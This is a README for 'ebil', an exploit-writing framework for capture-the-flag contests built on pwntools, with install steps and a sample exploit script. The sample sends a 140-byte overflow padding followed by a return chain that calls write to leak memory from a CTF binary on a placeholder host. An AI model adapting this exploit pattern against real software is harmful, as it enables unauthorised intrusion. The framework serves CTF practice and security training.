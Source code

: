 # ebil - Exploit code framework for CTFs
ebil is an exploit code framework for CTFs, based on pwntools

Command line tools + python library


![](https://gist.githubusercontent.com/193s/bdcf6ed0864cfb051336/raw/44248717b121f93366ea8dc50762883da3c386a9/ss.png)

### Runtime Environment
#### config file (TODO)
`$HOME/.ebil.conf`


### Command line tools
`ebil new <process>` -> `./exploit.py` with `process` will be generated


### Python library
`pip install ./py`

__usage__:
```sh
./exploit.py   # run locally
./exploit.py p # run locally (pause on breakpoints)
./exploit.py r # remote

```
__exploit.py__:
```python
#!/usr/bin/env python
from ebil import *

exec ebil('./vuln', remote=('pwnable.example.com', 35555), args=['wei'], arch='x86_64')

if LOCAL: log.info('** LOCAL **')

payload = 'a'*140

dummy = 0xbeefbeefbeefbeef
payload += chain([
  elf.symbols['write'], dummy, 1, 0x8049348, 4,
])
send(payload, 200)

print repr(r.recvrepeat())

r.wait_for_close()
```

## Installation
```bash
git clone https://github.com/193s/ebil && cd ebil
install -v ebil /usr/local/bin
pip install ./py
```

## License
Copyright (c) 2015 193s

Published under the GNU GPLv2, see ./LICENSE


